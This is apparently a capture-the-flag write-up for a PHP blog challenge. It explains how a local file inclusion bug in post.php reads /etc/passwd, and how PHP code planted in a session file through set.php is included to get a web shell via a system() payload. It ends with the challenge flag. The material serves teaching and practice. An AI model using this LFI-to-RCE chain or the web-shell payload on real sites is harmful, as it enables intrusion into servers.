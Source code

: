 # Custom Blog

## Description

> This guy wrote his own blog in PHP instead of, I dunno, literally anything else. Can you teach him a lesson?

{% file src="../../.gitbook/assets/source.zip" %}

## Solution

The first thing to notice is that in `/post.php`, there is a local file inclusion (LFI) vulnerability.

```php
<?php
  session_start();

  if (isset($_GET['post']) && file_exists($post = 'posts/' . $_GET['post'])) {
    $ok = true;
  } else {
    $ok = false;
    http_response_code(404);
  }

  ...
  
  if ($ok) {
    echo '<h1>' . htmlentities($_GET['post']) . '</h1><hr><div class="post">';
    include $post;
    echo '</div>';
  } else {
    echo '<h1>post not found :(</h1><hr>';
  }
  ...
?>
```

The `post` GET query parameter is used as the filename in the `include $post` statement. For instance, we could request `/post.php?post=../../../../../../etc/passwd`.

![](<../../.gitbook/assets/Screenshot 2021-12-07 at 7.39.34 PM.png>)

But what we really want is remote code execution (RCE). How do we do that? We need to be able to write to a file stored on the server, then include that file through the above LFI vulnerability.

After doing some research, I found that PHP sessions are file-based by default, and the filenames are pretty predictable - each user's session file is stored at `/tmp/sess_<PHPSESSID>`.&#x20;

If we look at `/set.php`, we can see that we are able to set the `theme` value in the session to any arbitrary string through the `theme` GET query parameter.

```php
<?php
  session_start();

  if (isset($_GET['theme'])) {
    $_SESSION['theme'] = $_GET['theme'];
  }

  header('Location: /');
  die();
?>
```

The session file can then be accessed through the LFI vulnerability, and our input is reflected into the included PHP code! For example, if we set our `theme` to `<?php phpinfo() ?>`, we get the following output when including our session file.

![](<../../.gitbook/assets/Screenshot 2021-12-07 at 7.52.03 PM.png>)

If we set the theme to the following PHP payload, we can get a web shell: `/set.php?theme=<?php system($_GET['c']) ?>`

![](<../../.gitbook/assets/Screenshot 2021-12-07 at 7.53.46 PM.png>)

Explore the filesystem for a bit and you'll find the flag: `MetaCTF{wh4t??lfi_1s_ev0lv1ng??}`
